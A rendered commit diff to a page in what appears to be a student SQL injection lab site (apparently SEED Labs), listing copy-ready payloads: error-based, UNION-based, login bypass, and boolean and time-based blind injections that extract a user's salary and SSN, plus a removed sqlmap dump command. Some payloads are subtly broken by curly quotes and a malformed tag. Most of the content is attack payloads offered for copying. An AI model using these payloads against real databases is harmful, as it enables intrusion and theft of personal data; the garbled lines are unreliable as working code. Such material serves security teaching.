

Before and after one commit to AAAAA11331AAAAA/SQL_Injection, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 119-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update SQL injection payloads and remove sqlmap command

```diff
--- a/index.html
+++ b/index.html
@@ -26,20 +26,21 @@
     <button onclick="copyToClipboard('vuln-code')">Copy Vulnerable Code</button>
 
     <h2>2. Malicious Payloads for In-band SQLi</h2>
-    <pre id="inband-error">nonexistent' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version), 0x7e)) = 1 -- </pre>
+    <pre id="inband-error">nonexistent’ AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT Salary FROM credential WHERE name=‘Alice’), 0x7e)) = 1 -- </pre>
     <button onclick="copyToClipboard('inband-error')">Copy Error-based Payload</button>
 
-    <pre id="inband-union">nonexistent' AND 1=0 UNION SELECT @@version COLLATE latin1_swedish_ci,2,3,4,5,6,7,8,9,10 -- </pre>
+    <pre id="inband-union">nonexistent’ AND 1=0 UNION SELECT 1,(SELECT Salary FROM credential WHERE name=‘Alice’),3,4,5,6,7,8,9,10,11 –- </pre>
     <button onclick="copyToClipboard('inband-union')">Copy Union-based Payload</button>
 
     <pre id="inband-bypass">admin' # </pre>
     <button onclick="copyToClipboard('inband-bypass')">Copy Login Bypass Payload</button>
 
     <h2>3. Malicious Payloads for Blind SQLi</h2>
-    <pre id="blind-boolean">admin' AND SUBSTRING((SELECT Password FROM credential WHERE name='admin'),1,1)='a' -- </pre>
+    <pre>Alice's SSN: 10211002</pre>
+    <pre id="blind-boolean"admin' AND SUBSTRING((SELECT ssn FROM credential WHERE name=‘Alice'),1,1)=‘1' --  </pre>
     <button onclick="copyToClipboard('blind-boolean')">Copy Boolean-based Payload</button>
 
-    <pre id="blind-time">admin' AND IF(1=1, SLEEP(5), 0)=0 -- </pre>
+    <pre id="blind-time">admin' AND IF(SUBSTRING((SELECT ssn FROM credential WHERE name='Alice'),1,1)='1', SLEEP(3), 0)=0 -- </pre>
     <button onclick="copyToClipboard('blind-time')">Copy Time-based Payload</button>
 
     <h2>4. UPDATE Injection Payloads (Edit Profile Nickname)</h2>
@@ -73,9 +74,5 @@ $stmt->bind_param("ss", $input_uname, $hashed_pwd);
 $stmt->execute();</pre>
     <button onclick="copyToClipboard('stored-proc-php')">Copy Stored Procedure PHP Call</button>
 
-    <h2>7. sqlmap Command for Testing</h2>
-    <pre id="sqlmap">sqlmap -u "http://www.SEEDLabSQLInjection.com/index.php" --data="username=admin&Password=123" --dump</pre>
-    <button onclick="copyToClipboard('sqlmap')">Copy sqlmap Command</button>
-
 </body>
 </html>
```
